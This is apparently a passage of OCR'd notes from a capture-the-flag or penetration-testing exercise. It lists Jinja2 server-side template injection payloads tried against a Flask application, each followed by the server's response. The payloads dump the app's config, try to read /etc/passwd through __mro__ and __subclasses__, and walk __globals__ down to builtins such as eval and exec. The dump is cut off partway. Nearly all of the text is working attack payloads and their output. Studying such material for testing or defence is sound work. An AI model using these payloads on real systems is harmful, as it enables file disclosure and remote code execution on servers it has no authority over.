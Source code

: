 - `{{config.items()}}`   
```txt
Hello dict_items([('ENV', 'production'), ('DEBUG', False), ('TESTING', False),
('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY',
None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE',
False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME',
'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None),
('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False),
('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True),
('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT',
datetime.timedelta(seconds=43200)), ('TRAP_BAD_REQUEST_ERRORS', None), 
('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), 
('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), 
('JSONIFY_PRETTYPRINT_REGULAR', False), ('JSONIFY_MIMETYPE', 'application/json'), 
('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])! 
```
- `{{config.items()[4]}}`   
```txt
Hello ! 
```
- `{{config.items()[4][1]}}`   
```txt
Internal Server Error
```
- `{{config[4]}}`   
```txt
Hello ! 
```
- `{{config[4][1]}}`   
```txt
Internal Server Error
```
- `{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}`   
```txt
Internal Server Error
```
- `{{config.__class__}}`   
```txt
Hello <class 'flask.config.Config'>! 
```
- `{{config.__class__.__init__}}`   
```txt
Hello <function Config.__init__ at 0x7fc672b83ca0>! 
```
- `{{config.__class__.__init__.__globals__}}`   
```txt
Hello {'__name__': 'flask.config', '__doc__': '\n flask.config\n ~~~~~~~~~~~~\n\n 
Implements the configuration related objects.\n\n :copyright: 2010 Pallets\n :license: 
BSD-3-Clause\n', '__package__': 'flask', '__loader__': 
<_frozen_importlib_external.SourceFileLoader object at 0x7fc672b7f610>, '__spec__': 
ModuleSpec(name='flask.config', loader=<_frozen_importlib_external.SourceFileLoader 
object at 0x7fc672b7f610>, origin='/usr/local/lib/python3.9/site-
packages/flask/config.py'), '__file__': '/usr/local/lib/python3.9/site-
packages/flask/config.py', '__cached__': '/usr/local/lib/python3.9/site-
packages/flask/__pycache__/config.cpython-39.pyc', '__builtins__': {'__name__': 
'builtins', '__doc__': "Built-in functions, exceptions, and other 
objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", 
'__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, 
'__spec__': ModuleSpec(name='builtins', loader=<class 
'_frozen_importlib.BuiltinImporter'>, origin='built-in'), '__build_class__': <built-in 
function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-
in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 
'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': 
<built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-
in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function 
delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': 
<built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function 
```